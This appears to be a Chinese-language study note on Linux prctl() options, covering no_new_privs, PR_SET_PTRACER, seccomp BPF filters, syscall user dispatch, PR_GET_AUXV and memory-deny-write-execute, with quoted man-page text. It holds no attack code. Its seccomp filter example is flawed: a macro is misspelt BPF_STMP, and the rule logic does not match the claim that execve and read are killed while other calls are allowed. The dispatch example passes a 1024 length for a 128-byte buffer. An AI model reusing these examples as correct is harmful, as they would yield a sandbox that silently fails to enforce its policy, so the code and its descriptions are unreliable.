**no_new_privs 标志一旦设置就不能撤销**，使用 fork 与 clone 创建的子进程会继承父进程的此标志，且在 execve 的时候也会保留。

这里需要理解的点在于**通过 execve 执行那些设置了 suid、sgid、Linux capabilities 的可执行文件时，未设置 no_new_privs 属性时，进程将会拥有比原进程更高的权限，no_new_privs 可以理解为是对 execve 提权操作的限制**，在一些场景中能够增强系统的安全性。

```
PR_SET_NO_NEW_PRIVS (since Linux 3.5)
    Set the calling thread's no_new_privs attribute to the value in arg2.  With no_new_privs set to
    1,  execve(2)  promises  not  to  grant privileges to do anything that could not have been done
    without the execve(2) call (for example, rendering the set-user-ID and set-group-ID mode  bits,
    and  file  capabilities non-functional).  Once set, the no_new_privs attribute cannot be unset.
    The setting of this attribute is inherited by children created by  fork(2)  and  clone(2),  and
    preserved across execve(2).

    Since  Linux  4.10, the value of a thread's no_new_privs attribute can be viewed via the NoNew‐
    Privs field in the /proc/pid/status file.

    For more information, see the kernel source  file  Documentation/userspace-api/no_new_privs.rst
    (or Documentation/prctl/no_new_privs.txt before Linux 4.13).  See also seccomp(2).

PR_GET_NO_NEW_PRIVS (since Linux 3.5)
    Return (as the function result) the value of the no_new_privs attribute for the calling thread.
    A  value  of 0 indicates the regular execve(2) behavior.  A value of 1 indicates execve(2) will
    operate in the privilege-restricting mode described above.
```

###        PR_SET_PTRACER (since Linux 3.4)

设置ptracer进程，其中arg2为ptracer的进程PID。

    This  is meaningful only when the Yama LSM is enabled and in mode 1 ("restricted ptrace", visi‐
    ble via /proc/sys/kernel/yama/ptrace_scope).  When a "ptracer process ID" is  passed  in  arg2,
    the  caller  is  declaring  that the ptracer process can ptrace(2) the calling process as if it
    were a direct process ancestor.  Each PR_SET_PTRACER operation replaces the  previous  "ptracer
    process  ID".  Employing PR_SET_PTRACER with arg2 set to 0 clears the caller's "ptracer process
    ID".  If arg2 is PR_SET_PTRACER_ANY, the ptrace restrictions introduced by Yama are effectively
    disabled for the calling process.
    
    For further information, see the kernel source file Documentation/admin-guide/LSM/Yama.rst  (or
    Documentation/security/Yama.txt before Linux 4.13).

###       PR_SET/GET_SECCOMP (since Linux 2.6.23)

设置沙箱规则：

* ` prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);`
  允许线程进行的唯一系统调用是read、write，_exit（不包括exit_group）和sigreturn。其他系统调用会导致SIGKILL；

* ` prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sock_fprog);`
  允许的系统调用由arg3中传递的Berkeley Packet Filter(BPF)指针定义。此参数是指向结构sock_fprog的指针，可以过滤任意的系统调用和系统调用参数。

    PR_SET_SECCOMP (since Linux 2.6.23)
        Set  the  secure computing (seccomp) mode for the calling thread, to limit the available system
        calls.  The more recent seccomp(2) system call provides a  superset  of  the  functionality  of
        PR_SET_SECCOMP, and is the preferred interface for new applications.
        The  seccomp  mode  is  selected  via  arg2.  (The seccomp constants are defined in <linux/sec‐
        comp.h>.)  The following values can be specified:

            SECCOMP_MODE_STRICT (since Linux 2.6.23)
                See the description of SECCOMP_SET_MODE_STRICT in seccomp(2).
                This operation is available only if the kernel is  configured  with  CONFIG_SECCOMP  en‐
                abled.
        
            SECCOMP_MODE_FILTER (since Linux 3.5)
                The  allowed system calls are defined by a pointer to a Berkeley Packet Filter passed in
                arg3.  This argument is a pointer to struct sock_fprog; it can be designed to filter ar‐
                bitrary  system  calls  and  system  call  arguments.   See  the  description  of   SEC‐
                COMP_SET_MODE_FILTER in seccomp(2).
                This  operation is available only if the kernel is configured with CONFIG_SECCOMP_FILTER
                enabled.
                For further details on seccomp filtering, see seccomp(2).

    PR_GET_SECCOMP (since Linux 2.6.23)
    Return (as the function result) the secure computing mode of the calling thread.  If the caller
    is not in secure computing mode, this operation returns 0; if the caller is  in  strict  secure
    computing  mode,  then  the prctl() call will cause a SIGKILL signal to be sent to the process.
    If the caller is in filter mode, and this system call is allowed by the seccomp filters, it re‐
    turns 2; otherwise, the process is killed with a SIGKILL signal.

    This operation is available only if the kernel is configured with CONFIG_SECCOMP enabled.

    Since Linux 3.8, the Seccomp field of the /proc/pid/status file provides a method of  obtaining
    the same information, without the risk that the process is killed; see proc(5).

参考`man 2 seccomp`：

```c
       When adding filters via SECCOMP_SET_MODE_FILTER, args points to a filter program:

           struct sock_fprog {
               unsigned short      len;    /* Number of BPF instructions */
               struct sock_filter *filter; /* Pointer to array of
                                              BPF instructions */
           };

       Each program must contain one or more BPF instructions:

           struct sock_filter {            /* Filter block */
               __u16 code;                 /* Actual filter code */
               __u8  jt;                   /* Jump true */
               __u8  jf;                   /* Jump false */
               __u32 k;                    /* Generic multiuse field */
           };

       When  executing  the instructions, the BPF program operates on the system call information made avail‐
       able (i.e., use the BPF_ABS addressing mode) as a (read-only) buffer of the following form:
       // 在执行指令时，BPF 程序对可用的系统调用信息（即使用 BPF_ABS 寻址模式）进行操作，作为以下形式的（只读）缓冲区

           struct seccomp_data {
               int   nr;                   /* System call number */
               __u32 arch;                 /* AUDIT_ARCH_* value
                                              (see <linux/audit.h>) */
               __u64 instruction_pointer;  /* CPU instruction pointer */
               __u64 args[6];              /* Up to 6 system call arguments */
```

其中，`struct sock_filter`的`code`可用值定义在`linux/bpf_common.h`。

filter编写用到的宏定义：

```c
/* linux/filter.h */
/*
 * Macros for filter block array initializers.
 */
#ifndef BPF_STMT
#define BPF_STMT(code, k) { (unsigned short)(code), 0, 0, k }
#endif
#ifndef BPF_JUMP
#define BPF_JUMP(code, k, jt, jf) { (unsigned short)(code), jt, jf, k }
#endif
```

filter的编写方法：

```d
/* linux/bpf_common.h */
#define		BPF_W		0x00 /* 32-bit */
#define		BPF_H		0x08 /* 16-bit */
#define		BPF_B		0x10 /*  8-bit */
// e.g
  BPF_STMT(BPF_LD|BPF_W|BPF_ABS, k) // 从struct seccomp_data的第k个字节开始，传送4个字节（即系统调用号）
  
/* linux/bpf_common.h */
#define		BPF_LD		0x00
#define		BPF_LDX		0x01
#define		BPF_ST		0x02
#define		BPF_STX		0x03
#define		BPF_ALU		0x04
#define		BPF_JMP		0x05
#define		BPF_RET		0x06
#define		BPF_MISC        0x07

#define		BPF_JA		0x00
#define		BPF_JEQ		0x10
#define		BPF_JGT		0x20
#define		BPF_JGE		0x30
#define		BPF_JSET        0x40
// e.g
BPF_JUMP(BPF_JMP|BPF_JEQ, k, jt, jf) // 比较传送值与k的大小，满足条件跳过jt行，不满足跳过jf行
```

举例：

```c
struct sock_filter filter[] = {
  BPF_STMT(BPF_LD|BPF_W|BPF_ABS, 0),   //L1: 从struct seccomp_data的第0个字节开始，传送4个字节（即系统调用号）
  BPF_JUMP(BPF_JMP|BPF_JEQ, 59, 1, 0), //L2: 比较是否为59(SYS_execve)，是则跳过1行(L4)，不是则跳过0行（L3）
  BPF_JUMP(BPF_JMP|BPF_JGE, 0, 1, 0),  //L3: 比较是否为0(SYS_read)，大于等于则跳过1行(L5)，否则跳过0行（L4）
  BPF_STMP(BPF_RET+BPF_K, SECCOMP_RET_KILL),  //L4: 杀死进程
  BPF_STMP(BPF_RET+BPF_K, SECCOMP_RET_TRACE), //L5: 父进程追踪子进程
  BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_ERRNO), //L6: 异常处理
  BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_ALLOW), //L7: 允许系统调用
};
struct sock_fprog prog={
  .len=sizeof(filter)/sizeof(sock_filter[0]),
  .filter=filter,
};
prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
```

上述举例规则表示，不能使用`SYS_execve`或`SYS_read`，否则直接杀死进程，其他调用允许执行。

### PR_SET_SYSCALL_USER_DISPATCH (since Linux 5.11, x86 only)

参考：[Linux syscall hooking](https://jackbondpreston.me/syscalls/)

这个选项也很有意思！

为调用线程配置 Syscall 用户调度机制。此机制允许应用程序有选择地拦截系统调用，以便它们可以在应用程序本身内处理，内核将不再处理该系统调用。拦截采用线程定向 SIGSYS 信号的形式，该信号在线程进行系统调用时传递给线程。

要启用此机制，arg2 应设置为`PR_SYS_DISPATCH_ON`。启用后，将根据用户空间提供的控制变量选择性地拦截进一步的系统调用。在这种情况下，arg3 和 arg4 分别标识进程地址空间中单个连续内存区域的偏移量和长度，无论控制变量如何，系统调用始终允许从该区域执行。（通常，此区域将包括包含 C 库的内存区域。）

arg5 指向1 byte大小的变量，该变量是一个快速开关，用于允许/阻止系统调用执行，而无需执行另一个系统调用来重新配置 Syscall User Dispatch。此控制变量可以设置为`SYSCALL_DISPATCH_FILTER_BLOCK`以阻止系统调用执行，也可以设置为`SYSCALL_DISPATCH_FILTER_ALLOW`以暂时允许它们执行。内核会在每个系统调用条目上检查此值，任何意外值都会在那时引发无法捕获的 SIGSYS，从而终止应用程序。也就是说，**使用自己的syscall handler之前应该将`selector = SYSCALL_DISPATCH_FILTER_BLOCK`**以阻止系统调用执行。

当系统调用被拦截时，内核会向触发线程发送一个线程定向 SIGSYS 信号。与信号绑定的 siginfo_t 结构（参见 sigaction(2)）中将设置各种字段：

* si_signo 将包含 SIGSYS。
* si_call_addr 将显示系统调用指令的地址。
* si_syscall 和 si_arch 将指示尝试了哪个系统调用。
* si_code 将包含 SYS_USER_DISPATCH。
* si_errno 将设置为 0。

当信号处理程序返回内核时，系统调用立即完成并返回调用线程。如有必要（即在用户空间模拟系统调用时），信号处理程序应通过修改存储在信号处理程序的 ucontext 参数中的寄存器上下文，将系统调用返回值设置为合理的值。有关更多信息，请参阅 sigaction(2)、sigreturn(2) 和 getcontext(3)。

如果 arg2 设置为 PR_SYS_DISPATCH_OFF，则该线程的 Syscall User Dispatch 将被禁用。其余参数必须设置为 0。

该设置不会在 fork(2)、clone(2) 或 execve(2) 之间保留。

有关更多信息，请参阅内核源文件`Documentation/admin-guide/syscall-user-dispatch.rst`

调用举例：

```c
#define _GNU_SOURCE

#include <signal.h>
#include <sys/prctl.h>
#include <stdbool.h>
#include <stdlib.h>
#include <stddef.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <stdio.h>

bool selector = SYSCALL_DISPATCH_FILTER_ALLOW;

static volatile void handle_sigsys(int sig, siginfo_t *info, void *ucontext) {
  char buf[128];
  int len;
  int ret;

  len = snprintf(buf, 1024, "Caught syscall with number 0x%x\n", info->si_syscall);
  selector = SYSCALL_DISPATCH_FILTER_ALLOW;
  write(1, buf, len);
}

int main(void) {
  int err;

  /* install SIGSYS signal handler */
  struct sigaction act;
  memset(&act, 0, sizeof(act));

  sigset_t mask;
  sigemptyset(&mask);

  act.sa_sigaction = handle_sigsys;
  act.sa_flags = SA_SIGINFO;
  act.sa_mask = mask;

  if (err = sigaction(SIGSYS, &act, NULL)) {
    printf("sigaction failed: %d\n", err);
    exit(-1);
  }

  /* enable SUD */
  if (err = prctl(PR_SET_SYSCALL_USER_DISPATCH, PR_SYS_DISPATCH_ON, 0, 0, &selector)) {
    printf("prctl failed: %d\n", err);
    exit(-1);
  }

  selector = SYSCALL_DISPATCH_FILTER_BLOCK;
  syscall(SYS_write);

  return 0;
}
```


### PR_GET_AUXV (since Linux 6.4)

`prctl(PR_GET_AUXV, (void *)p, len, 0, 0)`

将辅助向量`auxv`（auxiliary vector）的拷贝到p指向的buffer，buffer长度由 len 给出（如果buffer长度小于`auxv`长度，则直接截断）。返回值为`auxv`的完整长度。


###  PR_SET/GET_MDWE (since Linux 6.3)

`prctl(PR_SET_MDWE, PR_MDWE_REFUSE_EXEC_GAIN, 0, 0, 0);`

PR_SET_MDWE 设置调用进程的 Memory-Deny-Write-Execute 保护掩码。一旦设置了保护位，就不能更改。arg2 必须是以下位掩码：

* **PR_MDWE_REFUSE_EXEC_GAIN：新的内存映射不能可写可执行。原本不可执行的映射不能变为可执行。**
  如`mmap(0, 0x1000, PROT_WRITE|PROT_EXEC, MAP_ANON, -1, 0);`会失败。
* PR_MDWE_NO_INHERIT（since Linux 6.6）：不将 MDWE 保护继承给 fork 的子进程。
  （需要同时设置 PR_MDWE_REFUSE_EXEC_GAIN）

PR_GET_MDWE 返回调用进程的 Memory-Deny-Write-Execute 保护掩码。

